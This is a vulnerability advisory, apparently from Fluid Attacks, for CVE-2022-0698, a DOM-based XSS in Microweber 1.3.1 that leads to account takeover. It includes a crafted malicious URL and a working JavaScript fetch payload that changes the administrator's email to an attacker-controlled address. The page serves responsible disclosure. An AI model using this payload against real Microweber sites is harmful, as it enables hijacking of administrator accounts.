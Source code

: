 ```yaml
---
slug: advisories/garrix/
title: Microweber 1.3.1  -  DOM XSS to Account Takeover
authors: Carlos Bello
writer: cbello
codename: garrix
product: Microweber 1.3.1
date: 2022-11-24 11:00 COT
cveid: CVE-2022-0698
severity: 8.8
description: Microweber 1.3.1  -  DOM XSS to Account Takeover - DOM-Based cross-site scripting (XSS)
keywords: Fluid Attacks, Security, Vulnerabilities, Microweber, XSS
banner: advisories-bg
advise: no
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Microweber 1.3.1  -  DOM XSS to Account Takeover       |
| **Code name**         | [Garrix](https://en.wikipedia.org/wiki/Martin_Garrix)  |
| **Product**           | Microweber                                             |
| **Affected versions** | Version 1.3.1                                          |
| **State**             | Private                                                |
| **Release date**      | 2022-11-24                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | DOM-Based cross-site scripting (XSS)                                                                   |
| **Rule**              | [371. DOM-Based cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/371)|
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 8.8                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-0698](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0698)                          |

## Description

Microweber version 1.3.1 allows an unauthenticated user to perform an
account takeover via an XSS on the 'select-file' parameter. The following
is an example of a vulnerable URL:

* http://example.com/admin/view:modules/load_module:files#select-file=http://example.com/userfiles/media/default/ovaa-checklist.txt.

## Vulnerability

The XSS present in Microweber 1.3.1, allows an unauthenticated remote
attacker to perform an Account Takeover. To trigger this vulnerability,
we will need to send the following malicious link to an administrator in
order to hack their account. The following is an example of a malicious URL:

* http://example.com/admin/view:modules/load_module:files#select-file=http://example.com/userfiles/media/default/ovaa-checklist.php%22onload%3d%22javascript:PAYLOAD%22+///.txt

In the **PAYLOAD** field we will put the following malicious JS code:

```js
fetch('http://example.com/api/user/1',{
    method:'POST',
    credentials:'include',
    headers:{
        'Content-type':'application/x-www-form-urlencoded;charset%3dUTF-8'
    },
    body:'id%3d1%26_method%3dPATCH%26username%3dadmin%26email%3dattacker%40fluidattacks.com%26phone%3d\r\n'
})
```

## Exploitation

To exploit this vulnerability, a malicious URL must be sent to the
administrator of the Microweber instance. Once the administrator enters
the link, we will change the email address associated with their account
to one that is under our control.

![normal](https://user-images.githubusercontent.com/51862990/189453637-86fe4ccc-3d3e-4550-a666-b0c947cbee8d.png)

![AccountTakeover](https://user-images.githubusercontent.com/51862990/189451927-3841b94f-9a1c-4c10-b286-6b493a565d36.gif)

![hacked](https://user-images.githubusercontent.com/51862990/189453661-bba7b314-dfdd-4a91-887a-a78b51c112bf.png)

## Our security police

We have reserved the CVE-2022-0698 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Microweber 1.3.1

* Operating System: GNU/Linux

* Web Server: Apache

* PHP Version: 8.1.9

* Database and version: MySQL

## Mitigation

An updated version of Microweber is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/microweber/microweber>

## Timeline

<time-lapse
  discovered="2022-09-05"
  contacted="2022-09-05"
  replied="2022-09-19"
  confirmed="2022-09-19"
  patched="2022-09-19"
  disclosure="2022-11-24">
</time-lapse>
